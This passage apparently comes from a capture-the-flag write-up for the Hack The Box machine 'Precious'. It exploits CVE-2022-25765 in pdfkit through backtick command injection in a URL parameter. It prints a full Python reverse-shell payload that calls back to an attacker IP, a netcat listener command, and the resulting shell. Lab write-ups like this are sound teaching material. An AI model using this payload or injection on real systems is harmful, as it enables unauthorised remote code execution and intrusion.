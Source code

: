 Let's look at functionality of the website.<br>
First I spawned the python http server using command `python3 -m http.server 80` on attacker machine
Then Input `IP` of our attacker/kali machine on the `precious.htb` site <br> <br>
![image](https://user-images.githubusercontent.com/114393219/204420631-829ff6d2-7cbd-4fbb-bcde-26f86953c8b1.png)<br> <br>
And it converted the webpage into PDF as expected, let's download the PDF .<br> <br>
![image](https://user-images.githubusercontent.com/114393219/204422059-d4c0fae4-a12d-4354-8386-cc04127344af.png)

Now analyze the pdf using `Exiftool`
<br>
````text 
└─# exiftool daxl8od9nu3vj1qadzpgpgnnegxe7d6k.pdf 
ExifTool Version Number         : 12.41
File Name                       : daxl8od9nu3vj1qadzpgpgnnegxe7d6k.pdf
Directory                       : .
File Size                       : 17 KiB
File Modification Date/Time     : 2022:11:29 07:34:04+05:30
File Access Date/Time           : 2022:11:29 07:34:09+05:30
File Inode Change Date/Time     : 2022:11:29 07:34:09+05:30
File Permissions                : -rw-r--r--
File Type                       : PDF
File Type Extension             : pdf
MIME Type                       : application/pdf
PDF Version                     : 1.4
Linearized                      : No
Page Count                      : 1
Creator                         : Generated by pdfkit v0.8.6

````
From the above result we found out the pdfkit version `v0.8.6` . Well that's intresting 
<br>
The pdfkit is vulnerable to `CVE-2022-25765`
<br>
# CVE-2022-25765
More details : https://security.snyk.io/vuln/SNYK-RUBY-PDFKIT-2869795 <br>
After reading I came down to conclusion that we can use any get parameter name and inside that use the backticks to injection our command.
````test
http://10.10.XX.XX/?name=%20`parameter`
````
Let's check on the website : <br> <br>
![image](https://user-images.githubusercontent.com/114393219/204427344-cb96f77a-a6c3-4c98-b92e-71d60626147f.png)
<br><br>
And boom....we got the `id` as our parameter was specified <br> <br>
![image](https://user-images.githubusercontent.com/114393219/204427229-707815d2-e4f7-4992-88e7-105f34eba183.png)
<br><br>
Now let's try to gain reverse shell . <br>
The payload will look like this 
````text
http://10.10.XX.XX/?name=%20`python3 -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.10.XX.XX",9001));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);import pty; pty.spawn("sh")'`
````
Don't forget to start a listener on the attacker machine using command : `nc -lvnp 9001`
<br><br>
And boom we got the reverse shell successfully
````text
└─# nc -lvnp 9001             
listening on [any] 9001 ...
connect to [10.10.14.6] from (UNKNOWN) [10.129.166.100] 43272
$ ls
````